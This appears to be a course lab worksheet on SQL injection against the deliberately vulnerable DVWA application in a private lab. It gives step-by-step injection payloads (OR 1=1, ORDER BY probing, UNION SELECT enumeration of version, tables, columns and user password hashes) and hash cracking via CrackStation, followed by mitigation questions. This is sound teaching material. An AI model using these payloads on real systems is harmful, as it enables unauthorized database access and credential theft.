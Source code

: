 
# Lab - Injection Attacks 

**Objectives:**
In this lab, you will exploit a web application’s vulnerability using SQL injection and research methods for SQL injection mitigation.

---

### **Part 1: Exploit an SQL Injection Vulnerability on DVWA**

**Background / Scenario:**
SQL injection is a widespread attack used to exploit vulnerabilities in SQL database-driven web applications. Attackers use this technique to manipulate databases by injecting malicious SQL code into input fields, aiming to access sensitive information or alter data.

**Required Resources:**
- Kali VM customized for the Ethical Hacker course
- Internet access

---

**Instructions:**

---

#### **Step 1: Prepare DVWA for SQL Injection Exploit**
1. Open your browser and navigate to the DVWA at `http://10.6.6.13`.
2. Log in with the credentials: `admin` / `password`.
3. Set DVWA to Low Security:
   - Click **DVWA Security** in the left pane.
   - Change the security level to **Low** and click **Submit**.

---

#### **Step 2: Check DVWA for a SQL Injection Vulnerability**
1. Click **SQL Injection** in the left pane.
2. In the **User ID** field, type `' OR 1=1 #` and click **Submit**.
3. Observe the output and determine if the vulnerability exists.

---

#### **Step 3: Check for Number of Fields in the Query**
1. In the **User ID** field, type `1' ORDER BY 1 #` and click **Submit**.
2. In the **User ID** field, type `1' ORDER BY 2 #` and click **Submit**.
3. In the **User ID** field, type `1' ORDER BY 3 #` and observe the error message. What does this tell you about the number of fields?

---

#### **Step 4: Check the Database Version**
1. In the **User ID** field, type `1' OR 1=1 UNION SELECT 1, VERSION()#` and click **Submit**.
2. What is the version of the database management system (DBMS)?

---

#### **Step 5: Determine the Database Name**
1. In the **User ID** field, type `1' OR 1=1 UNION SELECT 1, DATABASE()#` and click **Submit**.
2. What is the name of the database?

---

#### **Step 6: Retrieve Table Names from the Database**
1. In the **User ID** field, type:
   ```
   1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#
   ```
2. What are the names of the tables found?

---

#### **Step 7: Retrieve Column Names from the Users Table**
1. In the **User ID** field, type:
   ```
   1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#
   ```
2. What column names are returned?

---

#### **Step 8: Retrieve User Credentials**
1. In the **User ID** field, type:
   ```
   1' OR 1=1 UNION SELECT user, password FROM users #
   ```
2. Analyze the usernames and password hashes that are displayed.

---

#### **Step 9: Hack the Password Hashes**
1. Open another tab in your browser and navigate to [CrackStation](https://crackstation.net).
2. Copy and paste one of the password hashes into CrackStation and click **Crack Hashes**.
3. What is the password of the **admin** account?
4. What is the password of the **pablo** account?

---

### **Part 2: Research SQL Injection Mitigation**

#### **Step 1: Conduct Research on SQL Injection Mitigation**
- Search online for **SQL injection mitigation** techniques.
- Document your findings on how SQL injection attacks can be mitigated or prevented.

---

### **Reflection Questions**

1. What are three methods to mitigate SQL injection exploits?
2. Why is input validation important in preventing SQL injection?
3. How does using parameterized queries or prepared statements help protect against SQL injection?

